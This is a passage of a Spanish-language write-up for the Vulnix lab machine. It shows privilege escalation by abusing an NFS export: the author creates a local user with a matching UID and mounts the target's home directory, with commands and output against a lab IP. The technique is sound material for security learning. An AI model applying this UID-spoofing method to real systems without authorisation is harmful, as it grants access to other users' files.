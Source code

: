 Con esto, habremos logrado obtener acceso a la máquina

# Privilege escalation
Como podemos observar, existe un usuario llamado 'vulnix', pero no tenemos los permisos necesarios para acceder a él
```bash
user@vulnix:~$ cd /home
user@vulnix:/home$ ls -l
total 8
drwxr-x--- 3 user   user   4096 Sep  2  2012 user
drwxr-x--- 2 vulnix vulnix 4096 Sep  2  2012 vulnix
user@vulnix:/home$ cd vulnix
-bash: cd: vulnix: Permission denied
```
Vamos a obtener y guardar el ID de este usuario
```bash
user@vulnix:/home$ id vulnix
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
```
En Nmap no aparecía que teníamos un servidor NFS, pero hemos descubierto que el directorio home del usuario 'vulnix' está compartido. Por lo tanto, vamos a crear un usuario 'vulnix' en nuestra máquina local e intentar acceder a ese directorio
```bash
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.0.1.24
Export list for 10.0.1.24:
/home/vulnix *
```
## Creación del usuario vulnix en local
Procedemos a crear el usuario con el mismo UID que tenía en la máquina objetivo
```bash
sudo useradd -u 2008 -m vulnix
```
```bash
sudo passwd vulnix
```
```bash
sudo chsh -s /bin/bash vulnix
```
## Montamos el directorio /home/vulnix en /tmp
montamos el directorio /home/vulnix del servidor NFS en 10.0.1.24 al directorio local /tmp/vulnix sin utilizar bloqueo de archivos.
```bash
sudo mount -t nfs 10.0.1.24:/home/vulnix /mnt -nolock
```
Una vez montado el directorio, podremos acceder a él con el usuario local 'vulnix' que acabamos de crear
```bash
┌──(kali㉿kali)-[~]
└─$ su vulnix
Contraseña: 
┌──(vulnix㉿kali)-[/home/kali]
└─$ cd /mnt

┌──(vulnix㉿kali)-[/mnt]
└─$ ls -la
total 20
drwxr-x---  2 nobody nogroup 4096 may 14 10:29 .
drwxrwxrwt 14 root   root    4096 may 14 11:53 ..
-rw-r--r--  1 nobody nogroup  220 abr  3  2012 .bash_logout
-rw-r--r--  1 nobody nogroup 3486 abr  3  2012 .bashrc
-rw-r--r--  1 nobody nogroup  675 abr  3  2012 .profile
```